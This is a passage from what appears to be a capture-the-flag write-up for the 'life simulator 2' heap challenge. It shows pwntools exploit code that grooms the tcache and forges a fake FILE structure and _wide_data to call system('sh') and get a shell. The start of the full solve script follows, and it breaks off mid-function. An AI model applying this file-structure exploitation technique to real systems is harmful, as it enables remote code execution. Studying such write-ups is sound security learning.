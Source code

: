 ```python
# fill up tcache
for i in range(7):
    fire_worker(b"john" + str(i).encode())

# free chunks and make the fake file
for i in range(22, 30):
    fire_worker(b"john" + str(i).encode())

p.sendline(b"a"*0x410)

# forge fake file
payload = flat({
    # file
    0x40 + 0x00: b"  sh",
    0x40 + 0x20: 0,
    0x40 + 0x28: 1,
    0x40 + 0x88: libc_base + 0x205710,
    0x40 + 0xa0: heap_base + 0x14d30,
    0x40 + 0xd8: libc_base + 0x202228
}, filler=b"\x00")
payload += b"\x00"*(0x1f0 - len(payload))
p.sendline(payload)

# forge _wide_data
payload = flat({
    0x18: 0x0,
    0x30: 0x0,
    0xd8: libc.sym.system + libc_base,
    0xe0: heap_base + 0x14e08 - 0x68
}, filler=b"\x00")
payload += b"\x00"*(0xe0 - len(payload))
p.sendline(payload)
```

Finally, sending exit will give us our shell! Luckily, we didn't send too many
chunks this time, so remote wasn't that slow.

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./life_simulator_2_patched")
libc = ELF("./lib/libc.so.6")

context.binary = exe
context.aslr = False

if args.LOCAL:
    p = process([exe.path])
    if args.GDB:
        gdb.attach(p)
        pause()
else:
    p = remote("life-simulator-2.chals.sekai.team", 1337, ssl=True)

def add_company(name: bytes, budget: int):
    payload = b"add_company "
    payload += name + b" "
    payload += str(budget).encode()
    p.sendline(payload)
    p.recvuntil(b"Success")

def sell_company(name: bytes):
```